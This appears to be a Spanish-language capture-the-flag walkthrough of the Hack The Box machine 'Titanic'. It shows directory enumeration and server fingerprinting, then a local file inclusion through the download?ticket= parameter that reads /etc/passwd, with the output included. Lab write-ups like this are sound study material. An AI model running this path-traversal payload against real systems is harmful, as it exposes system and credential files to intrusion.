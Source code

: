 ```http
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
405      GET        5l       20w      153c http://titanic.htb/book
200      GET       30l       77w      567c http://titanic.htb/static/styles.css
200      GET     2986l     7000w   469100c http://titanic.htb/static/assets/images/favicon.ico
200      GET      664l     5682w   412611c http://titanic.htb/static/assets/images/home.jpg
200      GET      859l     5115w   510909c http://titanic.htb/static/assets/images/luxury-cabins.jpg
200      GET      890l     5324w   534018c http://titanic.htb/static/assets/images/entertainment.jpg
200      GET      851l     5313w   507854c http://titanic.htb/static/assets/images/exquisite-dining.jpg
200      GET      156l      415w     7399c http://titanic.htb/

```
Un whatweb nos indica que estamos trabajando contra un Servidor web Python, Wekzeug;

```python
➜  ~ whatweb http://titanic.htb 
http://titanic.htb [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.10.12], IP[10.10.11.55], JQuery, Python[3.10.12], Script, Title[Titanic - Book Your Ship Trip], Werkzeug[3.0.3]
```
Parece una pagina tipo "booking" para entradas al Titanic, esta cachonda;

![[Pasted image 20250217165949.png]]
Ninguno de los botones de la pagina funcionan excepto el de Book Now;
![[Pasted image 20250217170046.png]]

Si le damos a submit nos decarga el formulario en formato json;
El nombre del archivo es el siguiente `4852d90d-7587-420d-91e7-b4f84f2c539c.json` parece que se genera un archivo de nombre aleatorio con el contenido rellenado del formulario;
```json
 {"name": "cher0", "email": "none@mail.com", "phone": "12345678", "date": "0002-02-02", "cabin": "Standard"}
```
capturamos la peticion que enviamos al servidor cuando clickeamos `submit`
![[Pasted image 20250217170358.png]]

Nos redirige a la url `http://titanic.htb/download?ticket=65449497-ae16-43b2-99f3-09656003ff09.json`

## LFI

Probamos a cambiar el nombre del archivo y nos da un not found; pero podemos leer archivos del sistema poniendo una ruta; realmente arcaico típico de la época del titanic.
![[Pasted image 20250217170935.png]]
LFI:
```http
http://titanic.htb/download?ticket=/etc/passwd
```
Nos descarga el siguiente archivo: ` _etc_passwd`
### /etc/passwd
```java
➜  nmap cat --plain ~/Descargas/_etc_passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```